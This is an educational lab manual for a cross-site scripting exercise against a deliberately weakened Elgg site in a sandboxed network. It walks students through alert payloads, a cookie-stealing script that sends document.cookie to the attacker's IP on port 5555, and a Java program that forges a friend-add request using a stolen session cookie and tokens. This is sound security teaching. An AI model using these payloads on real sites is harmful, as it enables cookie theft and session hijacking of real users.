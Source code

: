 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Cross-Site Scripting (XSS) Attack Lab
=================================

Overview
========

Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to inject
malicious code (e.g. JavaScript programs) into victim’s web browser. Using this malicious code, the attackers can steal the sensitive information, such as session cookies. The access control policies employed by browsers using session cookies, for example, can be bypassed by exploiting the XSS vulnerability. Vulnerabilities of this kind can potentially lead to large- scale attacks.

  

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM, open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ labtainer xsite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM
    
 **If a network error occurs during a lab, stop the lab using 'stoplab' and enter 'docker network prune' in the terminal. Restart the lab with 'labtainer $labname'.
    
Scenario
===============

To demonstrate what attackers can do by exploiting XSS vulnerabilities, you will work will a web application named Elgg. Elgg is a popular open-source web application for social networking. Although it has implemented a number of countermeasures to remedy XSS threas, these countermeasures are removed in Elgg in your installation. This makes the Elgg site vulnerable to XSS attacks. Users can post any arbitrary message, including JavaScript programs, to the user profiles. 

In this lab, you will exploit this vulnerability to launch an XSS attack on the modified Elgg, in a way that is similar to what Samy Kamkar did to MySpace in 2005 through the notorious Samy worm. The ultimate goal of this attack is to spread an XSS worm among the users, such that whoever views an infected user's profile will then be infected them selves, and whoever is infected will add you (i.e., the attacker) to his/her friend list.

Environment Configuration
===============

This lab includes three networked computers as shown in Figure
>   [1.](#_bookmark0) 

The "vuln-site" runs the Apache web server and the Elgg web applications. The "attacker" and "victim" computers each include the Firefox browser. Use the browser Web Developer / Network tool (upper right menu), to inspect the HTTP requests and responses.

![](media/e42177508edcc836bbe205d1065f8c37.jpg)

Figure 1: Cross site scripting lab topology

   **Starting the Apache Server.** The Apache web server will be running when the lab commences. If you need to restart the web server, use the following
   command:
```
$ sudo systemctl restart httpd
```

   **The Elgg Web Application.** There are several user accounts on the Elgg server [http://www.xsslabelgg.com](http://www.xsslabelgg.com/) and the credentials are given below.

| User    | UserName | Password    |
|---------|----------|-------------|
| Admin   | admin    | seedelgg    |
| Alice   | alice    | seedalice   |
| Boby    | boby     | seedboby    |
| Charlie | charlie  | seedcharlie |
| Samy    | samy     | seedsamy    |


 **Other software.** Some of the lab tasks require some basic familiarity with JavaScript. Wherever necessary, JavaScript examples are provided to help get you started. To complete task 3, you will need a utility to watch incoming requests on a particular TCP port. The home directory on the attacker computer contains an ”echoserver” directory with a program (written in C) that can be configured to listen on a particular port and display incoming messages.

Task 4 requires modifications to, compilation and execution of a Java program on the attacker computer. This program is in the HTTPSimpleForge directory on the attacker computer, and that computer includes a JDK for compiling java.

Lab Tasks
===============

Task 1: Posting a Malicious Message to Display an Alert Window
===============
The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed. 

- From the attackers terminal,  open a browser useing the command "firefox".
- Within this browser go to the site: http://www.xsslabelgg.com
- Log into the social networking site with Samy's credentials. (see table above)
- Navigate to your profile page *square icon with avatar shadow in upper-left corner
- Select "edit profile"

The "Brief Description" section will be rendered in other users' browsers when they visit your page.  This is where you (Samy) will place your scripts.

- Try using the following JavaScript snippet to display an alert window in the browser of anyone visiting your profile page:
```
<script>alert('XSS is bad');</script>
```
- After saving this, you will be returned to your profile page.  This shoud cause the browser to render this script and provide a pop-up alert. Try loggin out and testing this from an innocent victim's account.  

- You will have successfully completed this task once you have been able to get a pop-up alert (with a message) to appear upon any browser session open to Samy's profile page.

Bonus Info
=====

In this example, the JavaScript code is short enough to be typed into the short description field. If you want to run a longer JavaScript snippet, but you are limited by the number of characters you can type into the form, you can take a different approach. 

Store the JavaScript program in a standalone file, save it with the .js extension, and then refer to it using the 'src' attribute in the <script> tag. See the following example:

```
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>

```

In the above example, the page will fetch the JavaScript program from [http://www.example.com](http://www.example.com/), which can be any location that you have chosen to host this script at (attacker's web server for example).

Task 2: Posting a Malicious Message to Display Cookies
===============

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies  will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task.

- Using the same process as before, try displaying the session cookie in the alert pop-up:

```
<script>alert(document.cookie);</script>
```

- You will have successfully completed this task once you have been able to get a pop-up to appear upon any browser session open to Samy's profile page, which displays the user's cookie.

Task 3: Stealing Cookies from the Victim’s Machine
===============

In the previous task, the malicious JavaScript code displays the user’s cookie information, but only the user can see this cookies. This is not helpful to an attacker. In this task, the attacker will use JavaScript code to send the cookies to himself/herself, making them useful for session highjacking. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookie information appended to the request.

We can do this by having the malicious JavaScript insert an *<*img*>* tag with its src attribute set to the attacker’s machine. When the JavaScript inserts the image (img) tag, the browser tries to load the image from the URL in the src field. This results in an HTTP GET request being sent to the attacker’s machine. 

- The JavaScript snippet provided below sends the cookie information to port 5555 of the attacker’s machine, where the attacker has a TCP server listening to the same port. 

**Note that in the output, the "=" character gets transformed to %3D (hex).
```
<script>document.write('<img src=http://172.25.0.3:5555?c='+ escape(document.cookie) + ' >');</script>

# The attacker's IP address  is 172.25.0.3
```
- The TCP server program on the attacker's machine will print out what it recieved. to start this application on the attacker's machine, navigate to the "echoserver" directory.
- Access the "README" file and figure out how to run this program.  You **MUST** start the schoserv program before doing the XSS so that the attacker's machine can recieve the cookie informaiton that is sent.

- You will have completed this task once you have successfully been able to transmit cookie information from a user's session to the attacker's machine and read this out through the echoserv program.


Task 4: Session Hijacking using the Stolen Cookies
===============

After stealing the victim’s cookies, the attacker can do whatever the victim can do to the Elgg web server, including adding and deleting friends on behalf of the victim, deleting the victim’s post, etc. Essentially, the attacker has hijacked the victim’s session. In this task, we will launch this session hijacking attack, and write a program to add a friend on behalf of the victim. The attack should be launched from another virtual machine.

To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox’s Web Developer / Network tool can help us; it can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request.

- Log in as another user (charlie for example)
- Open the Web Developer > Network Tool in your firefox browser.
- Now add Samy as a friend.  Look at the "GET" request. Note the elgg_ts and elgg_token. Also note that Samy's's user ID is 42. These are unique for each user.

- **Remove Samy as a friend.

- In the attacker's terminal, navigate to the "/HTTPSimpleForge" directory on the attacker machine and open the "HTTPSimpleForge.java" program in the text editor leafpad:
 
 ```
 leafpad HTTPSimpleForge.java
 ```
- Change the following lines:

```
String requestDetails = "&__elgg_ts=1599761839&__elgg_token=88d6c723d87b0aee53aa7b5ef0aaec1c";
// URL to be forged.
URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?friend=42"+requestDetails);
 ```
 ```
String cookies = "Elgg=cj1be6flek57vflghcdk2r2qb0";
 
```
- Save the file and close leafpad.

 **Note** Compile and run the java program using 
   
```
javac HTTPSimpleForge.java 
java HTTPSimpleForge
```


- The Elgg server cannot distinguish whether the request is sent out by the victim’s browser or by the attacker’s Java program. As long as we set all the parameters correctly, and the session cookie is attached, the server will accept and process the project-posting HTTP request. 
 
 - Check the friends that were added and note whether or note Samy was added.

**Note 1:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed.

Submission
==========
   After finishing the lab, go to the terminal on your Linux system that was used to start the lab and type:
```
$ stoplab xsite

```


